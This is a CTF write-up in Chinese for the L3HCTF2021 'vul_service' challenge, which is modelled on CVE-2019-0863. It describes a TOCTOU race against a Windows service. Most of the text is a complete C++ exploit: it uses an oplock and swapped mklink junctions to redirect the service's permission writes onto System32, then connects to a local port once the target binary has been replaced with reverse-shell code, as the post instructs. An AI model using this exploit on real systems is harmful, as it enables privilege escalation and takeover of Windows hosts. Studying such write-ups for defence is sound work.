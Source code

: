 # L3HCTF2021


# L3GHCTF2021 PWN
躺了个第一，被带飞了。
<!-- more -->
看了一下只有这题值得记录👇

## vul_service
### 分析
题目来自CVE-2019-0863，注册了一个系统服务，功能是会不断遍历tmp目录下文件，读取其权限并写回去，注意到是根据文件名来判断并且没有加锁，考虑使用TOCTOU来攻击。

参考[这篇文章](https://lucabarile.github.io/Blog/toctou/index.html)了解TOCTOU，比较好理解的一种条件竞争，使用SetOplock在读取时锁住，并修改符号链接即可非预期修改别的文件的权限。通过这里主要学到了很多windows的知识，如权限控制的DACL，计划任务等。

### 思路
感谢FMYY和2st的帮助。

首先在tmp同级创建一个target目录，其中创建同名文件vul_service.exe，这里建议从system32中直接复制出来并删除继承关系，这样就有了Attacker的权限。

主要思路就是在tmp创建一个符号链接指target，用SetOplock锁住该同名文件。当计划任务访问时，删除符号链接并创建一个指向system32的，就可以把权限写给System32中的漏洞程序，然后替换为反弹shell的恶意代码即可。

### exp
```cpp
#include "stdafx.h"
#include<tchar.h>
#include<strsafe.h>
#include "TcpClient.h"
static FileOpLock* oplock = nullptr;
static bstr_t target_2;
#define BUFSIZE 4096
void HandleOplock()
{

	DebugPrintf("OpLock Triggered");
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Windows\\System32");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);

	Sleep(2000);
	
}

int _tmain(int argc, _TCHAR* argv[])
{
	wprintf_s(L"[+] hrnPA !\n");

	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Users\\Public\\target");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);
	//Sleep(2000);
	int sign = 0;
	if (argc < 2)
	{
		printf("Usage: SetOpLock target [rwdx]\n");
		printf("Share Mode:\n");
		printf("r - FILE_SHARE_READ\n");
		printf("w - FILE_SHARE_WRITE\n");
		printf("d - FILE_SHARE_DELETE\n");
		printf("x - Exclusive lock\n");
		sign = 1;
	}
	else
	{
		LPCWSTR target = argv[1];
		LPCWSTR share_mode = argc > 2 ? argv[2] : L"";

		oplock = FileOpLock::CreateLock(target, share_mode, HandleOplock);
		if (oplock != nullptr)
		{
			oplock->WaitForLock(INFINITE);
			delete oplock;

		}
		else
		{
			printf("Error creating oplock\n");
			return 1;
		}
	}
	if (sign) {
		TcpClient tcpClient;
		int iRes = 0;

		wprintf_s(L"[+] Trigger launched.\n");
		wprintf_s(L"[*] TCP connecting...\n");


		wprintf_s(L"[*] Waiting for the VulService to be Execute...\n");


		Sleep(50000);

		iRes = tcpClient.connectTCP("127.0.0.1", "1337");

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");

			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");


			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[-] Exploit failed.");
		}
		else
		{
			wprintf_s(L"[+] Exploit successfull.");
		}
	}
	return 0;
}

```

效果如下：
![win](../posts/L3HCTF2021/1.png)
此时替换为反弹shell的恶意代码即可。
